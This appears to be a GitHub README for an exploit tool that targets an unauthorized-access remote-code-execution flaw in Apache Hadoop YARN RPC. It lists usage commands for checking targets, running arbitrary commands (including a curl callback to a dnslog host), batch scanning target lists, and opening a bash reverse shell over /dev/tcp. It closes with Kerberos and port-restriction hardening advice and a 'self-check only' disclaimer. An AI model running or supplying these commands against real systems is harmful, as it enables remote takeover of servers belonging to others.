





## Vuln Impact

On November 15, 2021, A security researcher disclosed that there was an unauthorized access vulnerability in Hadoop yarn RPC. This vulnerability existed in Hadoop yarn, the core component of Hadoop. Because Hadoop yarn opened the RPC service to the public by default, a remote attacker could take advantage of this unauthorized vulnerability and execute arbitrary commands through the RPC service, so as to control the target server, In view of the high-risk status and great harm of this vulnerability, and the details have been disclosed and exploited by the opposition, it is recommended that all users using Apache Hadoop conduct self-examination and take security measures in time.

## Vuln Product

Apache Hadoop Yarn *

## Vunl Check

#### Basic usage

```c
python3 Hadoop_Yan_RPC_RCE.py
```



#### Vuln check

```c
python3 Hadoop_Yan_RPC_RCE.py -v true -t http://www.target.com 
```


#### command execute

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com  -c "curl xxx.dnslog.cn"
```





#### batch scan

```c
python3 Hadoop_Yan_RPC_RCE.py -s true -f target.txt
```



#### Reserve Shell

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
```



### Reference

https://nosec.org/home/detail/4905.html

https://github.com/N0b1ta/Bit-Cannon/tree/master/Apache/Hadoop/YARN/hadoop-yarn-rest-api-unauth

#### Safety Advice  

1.Enable Kerberos authentication to prevent unauthorized access.  

```xml
<property>
    <name>hadoop.security.authentication</name>
    <value>kerberos</value>
    <final>false</final>
    <source>core-site.xml</source>
</property>...
<property>
    <name>hadoop.rpc.protection</name>
    <value>authentication</value>
    <final>false</final>
    <source>core-default.xml</source>
</property>
```

2.Prohibit external addresses from accessing Hadoop RPC service related ports or configured to be open only to trusted addresses.


**Solemnly declare: Don't use this tool for illegal operation. This tool is only used for safety self checking  by Party A's personnel and Party B's personnel**.